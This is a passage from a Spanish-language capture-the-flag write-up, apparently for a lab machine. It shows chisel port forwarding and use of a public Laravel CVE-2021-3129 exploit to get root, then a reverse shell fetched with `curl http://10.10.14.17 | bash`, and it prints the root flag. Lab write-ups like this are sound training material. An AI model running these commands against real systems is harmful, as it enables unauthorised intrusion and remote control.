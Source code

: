 Nos sale esto:

![image](../zimages/Pasted%20image%2020241105182116.png)

A continuación ejecutamos lo siguiente en la máquina víctima, tras darle al ejecutable de chisel permisos de ejecución con `chmod +x chisel`:

```bash
./chisel client 10.10.14.17:1234 R:8000:127.0.0.1:8000
```

- Explicación:
	1. Comando `client`:  Especificas a chisel que esta máquina es el cliente, es decir, la máquina víctima.
	2. Parámetro 1 | `'10.10.14.17:1234'`: Es la ip + el puerto especificado anteriormente del servidor.
	3. Parámetro 2 | `R:8000:127.0.0.1:8000`: Aquí le especificamos la ruta a seguir para hacer el port forwarding, es decir, primero le especificamos con `8000` el puerto que nuestra máquina atacante va a estar utilizando; segundo, le especificamos el localhost, es decir, la máquina víctima; por último le especificamos el puerto que vamos a clonar de la máquina víctima, el `8000`.

Nos saldrá esto:

![image](../zimages/Pasted%20image%2020241105182408.png)

Y en nuestra máquina atacante nos saldrá un aviso:

![image](../zimages/Pasted%20image%2020241105182439.png)

De esta manera ya podemos acceder a la web del puerto 8000 mediante nuestro navegador, poniendo `localhost:8000`:

![image](../zimages/Pasted%20image%2020241105182603.png)

Aquí también nos muestra la versión de Laravel, vamos a buscarla por internet para ver si hay algún exploit en github, en mi caso me funcionó este repositorio (https://github.com/nth347/CVE-2021-3129_exploit), nos lo clonamos y lo ejecutamos siguiendo las instrucciones del exploit:

```bash
python3 exploit.py http://localhost:8000 Monolog/RCE1 id
```

Si nos fijamos en el output vemos que tenemos RCE como root:

![image](../zimages/Pasted%20image%2020241105182906.png)

Ahora vamos a seguir el mismo procedimiento de antes para conseguir una reverse shell. Nos montamos un server en python en el directorio donde tengamos el archivo index.html con la reverse shell y nos ponemos en escucha con netcat, a continuación, ejecutamos el comando `curl http://10.10.14.17 | bash` en el exploit (siguiendo las instrucciones), si ponemos un `whoami`, ya somos root :)

![image](../zimages/Pasted%20image%2020241105183351.png)

Ahora nos vamos al directorio de '/root' y leemos la flag de root (`fcd5d89e5d7ea86ce34131624ff2d851`):

![image](../zimages/Pasted%20image%2020241105184541.png)

![image](../zimages/Pasted%20image%2020241105183451.png)

# ./ROOTED

